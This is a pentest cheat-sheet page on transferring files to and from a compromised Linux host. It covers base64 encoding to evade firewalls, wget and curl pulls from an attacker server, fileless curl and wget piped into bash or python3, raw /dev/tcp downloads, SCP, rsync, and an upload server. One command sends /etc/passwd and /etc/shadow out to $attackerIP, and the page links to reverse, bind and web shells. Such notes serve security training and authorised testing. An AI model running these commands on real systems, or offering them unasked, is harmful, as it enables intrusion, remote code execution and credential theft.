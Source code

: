```yaml
---
title: Transferring files techniques - Linux
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - linux
  - exploitation
  - file transfer technique
  - backdoors
---
```

# Transferring files techniques  - Linux

## Download to Linux

### Base64

To avoid firewall protections we can:

**1.** Base64 encode the file:

```shell-session
base64 file.php -w 0

# Alternative
cat file |base64 -w 0;echo

```

**2.** Copy the base64 string, go to the remote host and decode it and pipe to a file:

```shell-session
echo -n "Looooooong-string-encoded-in-base64" | base64 -d > file.php
# -n: do not output the trailing newline
```

### Replicating client-server 

#### 1. Setting up a server in the attacking machine 

[See different techniques](servers.md)

#### 2. Download files from victim's machine

##### wget

```shell-session
wget http://<SERVERIP>:<SERVERPORT>/<file> -O  <OutputNameForFile>
# -O:  set the output filename.
```

##### curl

```shell-session
curl http://http://<SERVERIP>:<SERVERPORT>/<file> -o <OutputNameForFile>
```


### Fileless downloads using Linux

Because of the way Linux works and how pipes operate, most of the tools we use in Linux can be used to replicate fileless operations, which means that we don't have to download a file to execute it.

##### Fileless Download with cURL

```shell-session
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```


##### Fileless Download with wget

```shell-session
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

### Bash downloads

As long as Bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/TCP device file can be used for simple file downloads. On the server side (attacking machine), setup a server by using one of the methodologies applied above.

On the client side (victim's machine):

```shell-session
# Connecting to the Target Webserver (attacking machine serving the file)
exec 3<>/dev/tcp/$ip/80

# Requesting the file to the server 
echo -e "GET /file.sh HTTP/1.1\n\n">&3

# Printing the Response
cat <&3
```


### SSH downloads: SCP

SSH implementation comes with an SCP utility for remote file transfer that, by default, uses the SSH protocol. 

Two requirements:

 - we have ssh user credentials on the remote host
 - ssh is open on port 22

On the server's side (attacker's machine):

```shell-session
# Enable the service
sudo systemctl enable ssh

# Start the server
sudo systemctl start ssh

# Check if port is listening
netstat -lnpt
```

From the attacker machine too:

```
# Download file foobar.txt saved in the victim's machin. Command is run from attacker machine connecting to the remote host (victim's machine)
scp username@$IPvictim:foobar.txt /some/local/directory
```



```
# Upload file foo.txt saved in attacker machine into the victim's. Command is run from attacker machine connecting to the remote host (victim's machine)
scp foo.txt username@$IPvictim:/some/remote/directory
```

## Upload to Linux

### Web upload

We can use [uploadserver](uploadserver.md).


```bash
# Install
python3 -m pip install --user uploadserver


# As we will use https, we will create a self-signed certificate.
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

#  The webserver should not host the certificate. We recommend creating a new directory to host the file for our webserver.
mkdir https && cd https


# Start the web server
python3 -m uploadserver 443 --server-certificate /location/different/folder/server.pem

# Now from our compromised machine, let's upload the `/etc/passwd` and `/etc/shadow` files.
curl -X POST https://$attackerIP/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
# We used the option --insecure because we used a self-signed certificate that we trust.
```


### SSH uploads: SCP

SSH implementation comes with an SCP utility for remote file transfer that, by default, uses the SSH protocol. 

Two requirements:

 - we have ssh user credentials on the remote host
 - ssh is open on port 22

On the server's side (attacker's machine):

```shell-session
# Enable the service
sudo systemctl enable ssh

# Start the server
sudo systemctl start ssh

# Check if port is listening
netstat -lnpt
```

From the attacker machine too:

```
# Upload file foo.txt saved in attacker machine into the victim's. Command is run from attacker machine connecting to the remote host (victim's machine)
scp foo.txt username@$IPvictim:/some/remote/directory
```


### Rsync over SSH

[More about RSYNC protocol](873-rsync.md).

Before you can start transferring files and directories with rsync over SSH, make sure you can [use SSH to connect to a remote server](https://phoenixnap.com/kb/ssh-to-connect-to-remote-server-linux-or-windows). Once verified, you can begin backing up your data. Ensure your destination system has sufficient storage space.

The syntax for copying files to a remote server over SSH with the **`rsync`** command is:

```
rsync OPTION SourceDirectory_or_filePath user@serverIP_or_name:Target

# Example
rsync ~/Desktop/Dir1/"source pdf sample.pdf" test@192.168.56.100:~/Desktop/test
```


### Backdoors

See [reverse shells](reverse-shells.md), [bind shells](bind-shells.md), and [web shells](web-shells.md).

